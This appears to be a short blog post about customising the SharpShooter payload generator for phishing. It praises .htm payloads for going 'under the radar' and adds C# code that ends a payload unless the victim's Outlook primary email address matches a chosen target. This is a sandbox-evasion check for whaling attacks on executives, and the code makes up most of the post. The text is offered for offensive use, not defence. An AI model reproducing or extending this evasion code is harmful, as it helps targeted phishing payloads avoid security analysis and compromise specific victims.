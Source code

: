 ```yaml
---
layout: post
title: Sharply shoot phishing target
---
```


Thanks Sharpshooter for providing such a excellent tool to generate payload. File with .htm extension is so much easier to go under the radar. <br>

Although it comes with sandbox evasion, I may not able to use that 4 built-in techniques to distinguish a well-built sandbox from a normal laptop. Then I realized enterprise email account would be a good identifier, if you are doing whaling. Just add a new Case and ask outlook for primary address, not credential prompt on client-side~~~

In SharpShooter/CSharpShooterStageless/SharpShooter.cs
```
public void CheckPlease(int check, string arg)
  {
      CheckPlease cp = new CheckPlease();
      switch(check)
      {
          case 0:
              if (!cp.isDomain(arg)) Environment.Exit(1);
              break;
          case 1:
              if (!cp.isDomainJoined()) Environment.Exit(1);
              break;
          case 2:
              if (cp.containsSandboxArtifacts()) Environment.Exit(1);
              break;
          case 3:
              if (cp.isBadMac()) Environment.Exit(1);
              break;
          case 4:
              if (cp.isDebugged()) Environment.Exit(1);
              break;
          case 5:
              if (!cp.isDesignatedEmail(arg)) Environment.Exit(1);
              break;
      }
  }
```

In SharpShooter/CSharpShooterStageless/CheckPlease.cs

```
public bool isDesignatedEmail(String input)
{
    if ((new Outlook.Application()).Session.Accounts[1].SmtpAddress.Equals(input))
    { return true;}
    else { return false; }
}
``` 
